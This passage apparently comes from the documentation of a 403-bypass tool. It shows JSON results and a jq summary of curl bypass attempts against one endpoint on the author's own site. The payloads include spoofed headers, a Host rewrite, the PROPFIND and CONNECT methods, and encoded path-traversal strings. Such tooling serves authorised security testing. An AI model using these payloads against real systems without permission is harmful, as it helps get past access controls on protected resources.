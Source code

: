 ```json
      "response_words_count": 4,
      "response_title": "301 Moved Permanently",
      "response_server_type": "GitHub.com",
      "response_redirect_url": "https://thinkloveshare.com/juicy_403_endpoint/",
      "response_html_filename": "bypass-e6118c315eea0e5b2ebc4fcafe0559c0.html"
    },
    {
      "request_curl_cmd": "/usr/bin/curl -sS -kgi -H 'User-Agent: curl 7.74.0' --path-as-is -X PROPFIND http://thinklove[...SNIP...]",
      "request_curl_payload": "-X PROPFIND http://thinkloveshare.com/juicy_403_endpoint/",
      "response_headers": "HTTP/1.1 405 Method Not Allowed\nConnection: close\nContent-Length: 131\nServer: Varnish\nRet[...SNIP...]",
      "response_data": "<html>\n<head><title>405 Not Allowed</title></head>\n<body bgcolor=\"white\">\n<center><h1>405 N[...SNIP...]",
      "response_status_code": 405,
      "response_content_type": "",
      "response_content_length": 131,
      "response_lines_count": 5,
      "response_words_count": 5,
      "response_title": "405 Not Allowed",
      "response_server_type": "Varnish",
      "response_redirect_url": "",
      "response_html_filename": "bypass-945822230d58d1ad4680d5dfbc470ecb.html"
    },
    {  "...": "[...SNIP...]"},
    {
      "request_curl_cmd": "/usr/bin/curl -sS -kgi -H 'User-Agent: curl 7.74.0' --path-as-is 'http://thinkloveshare.com/j[...SNIP...]",
      "request_curl_payload": "http://thinkloveshare.com/juicy_403_endpoint/\u00b0//",
      "response_headers": "HTTP/1.1 400 Bad request\nConnection: keep-alive\nContent-Length: 90\nCache-Control: no-cache[...SNIP...]",
      "response_data": "<html><body><h1>400 Bad request</h1>\nYour browser sent an invalid request.\n</body></html>\n",
      "response_status_code": 400,
      "response_content_type": "text/html",
      "response_content_length": 90,
      "response_lines_count": 3,
      "response_words_count": 7,
      "response_title": "",
      "response_server_type": "",
      "response_redirect_url": "",
      "response_html_filename": "bypass-2469eecf6c38b5817d2248e911ad4382.html"
    }
  ]
}
```

Making them easier to handle with `jq`:

```bash
$ jq -r '.results[] | [.request_curl_payload, .response_status_code, .response_content_type, .response_content_length] | join("|")' /tmp/bypass-res2/triaged-bypass.json

-H X-BlueCoat-Via: localhost http://thinkloveshare.com/juicy_403_endpoint/|301|text/html|162
-X PROPFIND http://thinkloveshare.com/juicy_403_endpoint/|405||131
http://thinkloveshare.com/%3b%2f%2e%2e%2f%2e%2e%2f%2fjuicy_403_endpoint/|400|text/html|9121
-H Host: 8.8.8.8 http://thinkloveshare.com/juicy_403_endpoint/|404|text/html|9115
-X CONNECT http://thinkloveshare.com/juicy_403_endpoint/|400|text/plain|15
http://thinkloveshare.com/juicy_403_endpoint/°//|400|text/html|90
```
